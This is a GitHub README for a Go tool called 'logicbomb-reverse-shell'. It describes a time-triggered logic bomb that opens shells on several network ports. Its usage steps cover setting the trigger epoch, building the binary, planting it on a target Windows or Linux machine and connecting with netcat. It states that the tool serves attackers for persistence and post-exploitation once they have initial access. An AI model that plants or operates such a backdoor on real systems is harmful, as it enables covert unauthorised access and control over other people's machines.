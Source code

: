 # logicbomb-reverse-shell
Description:

This is a GO-based logic-bomb script written by me to spawn a reverse shell by opening random network ports.

Usage:

1. Change the epoch timestamp in the script. Go to www.epochconverter.com and input the CORRECT execution time in your preferred local time/GMT and replace the epoch stamp by your newly created time----Line-->'if timeNow > newtime'. You can also slice up and change the portNos in this script differently and accoding to your desired usage.
2. Shoot up the terminal and 'go build logicbomb.go'
3. Place the created binary file into your desired target location path of windows/Linux.
In Linux,
4. Open up another terminal and "nc -l 'target_ip' 7864/7777/7783/8348/8677/8999". This will spawn a user shell and you are in!
Check whoami, pwd, ls, ifconfig.

Note:
Initial Machine Access Required: yes
This shell should be used to maintain foothold/persistence or for post-exploitation once an attacker gains initial entry.

To Do:

Work more on a user based priviledge esclation technique.

If you have any questions, please email me
shail.patel@nrel.gov

